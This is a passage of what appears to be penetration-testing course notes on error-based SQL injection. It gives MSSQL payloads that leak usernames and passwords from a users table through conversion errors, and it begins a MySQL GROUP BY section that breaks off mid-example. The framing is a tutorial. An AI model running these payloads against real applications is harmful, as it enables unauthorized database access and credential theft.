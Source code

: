             So the resulting error is something like:
            ```
            [Microsoft][SQL Server Native Client 10.0][SQL Server]Conversion failed when converting the varchar value '1@' to data type int.
              ```

          After extracting all the ids, we can use this information to extract all the usernames:
            ```
            9999999 or 1 in (SELECT TOP 1 CAST(username as varchar) FROM cms..users WHERE id=1); -- -
            ```
            No string concatenation is needed here, because *username* data type is varchar. Using the ids, lets us correlate usernames and passwords by retrieving the password of a specific username.

          We can retrieve a password by using pretty much the same payload we used for the username:
            ```
            9999999 or 1 in (SELECT TOP 1 CAST(password as varchar) FROM cms..users WHERE id=1); -- -
            ```

          Or even **concatenate the username and password**:
            ```
            9999999 or 1 in (SELECT TOP 1 CAST(username%2bchar(64)password as varchar) FROM cms..users WHERE id=1); -- -
            ```

In the following video you will see how to manually exploit error-based SQL injections.
You will see different ways to trigger errors, and some applied payload examples. Moreover, you will see how to submit your payload via the browser and a command line utility.

(see vid-139)

#### 4.4.2. MySQL Error-Based SQLi Exploitation
To exploit error-based SQL injection on MySQL, we will use the `GROUP BY` statement.
This statement groups the result-set by one or more columns.
  Example:
    The following query selects the screen names from the `accounts` tables.
    Please note the 2 `David` values:
    ```
    mysql> select displayname from accounts;
      +-------------------+
      | displayname       |
      +-------------------+
      | Aspen Byers       |
      | Alexandra Cabrera |
      | David             |
      | David             |
      +-------------------+
      4 rows in set (0.00 sec)
      ```

    An this is the output of the same query with the `GROUP BY` statement.
    There is just a single `DAVID` value.
      ```
      mysql> select displayname from accounts group by displayname;
      +-------------------+
      | displayname       |
      +-------------------+
      | Aspen Byers       |
      | Alexandra Cabrera |
      | David             |
      +-------------------+